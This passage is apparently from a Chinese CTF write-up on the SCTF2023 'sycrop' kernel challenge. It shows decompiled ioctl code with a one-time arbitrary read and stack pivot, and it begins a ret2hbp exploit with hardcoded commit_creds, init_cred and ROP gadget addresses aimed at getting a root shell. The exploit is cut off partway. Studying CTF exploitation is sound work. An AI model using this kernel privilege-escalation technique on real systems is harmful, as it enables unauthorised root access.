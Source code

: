 

## 0x04. demo - SCTF2023-sycrop

保护全开不必多说，逻辑也很简单如下：

```c
long __fastcall seven_ioctl(file *filp, unsigned int cmd, unsigned __int64 arg)
{
  __int64 v4; // r14
  long result; // rax

  if ( cmd != 0x6666 )
  {
    v4 = -1LL;
    if ( cmd == 0x5555 )
    {
      if ( pray )
      {
        printk("\x1B[35m\x1B[1m[*]no no no\n");
      }
      else
      {
        pray = 1;
        printk("\x1B[31m\x1B[1m[*]pray\n");
        return *(_QWORD *)arg;
      }
    }
    return v4;
  }
  if ( come_true )
    return 0LL;
  result = printk("\x1B[34m\x1B[1m[*]SYCrop by 77\n");
  come_true = 1;
  return result; // 这里要注意
}
```

题目有两个功能，每个功能都只能使用一次：

- 读取任意地址上的值
- 直接将栈迁移到用户提供的地址

对于第二个功能要注意，`IDA`上其实没有体现出来，要看汇编才知道：

```assembly
.text:000000000000008C                 xor     r15d, r15d
.text:000000000000008F                 xor     ebp, ebp
.text:0000000000000091                 mov     rsp, arg
.text:0000000000000094                 retn
```

其实就是为`ret2hbp`这样的利用方法量身定做的，我们对着写`exp`即可，脚本如下：

```c
#include "ltfallkernel.h"

int dev_fd;

pid_t hbp_pid;
int status;
char buf[0x10];

size_t commit_creds = 0xffffffff810bb5b0;
size_t init_cred = 0xffffffff82a4cbf8;
size_t pop_rdi = 0xffffffff81002c9d;
size_t swapgs_restore_regs_and_return_to_usermode = 0xffffffff82000ed0;
size_t shell_addr = (size_t)get_root_shell;
```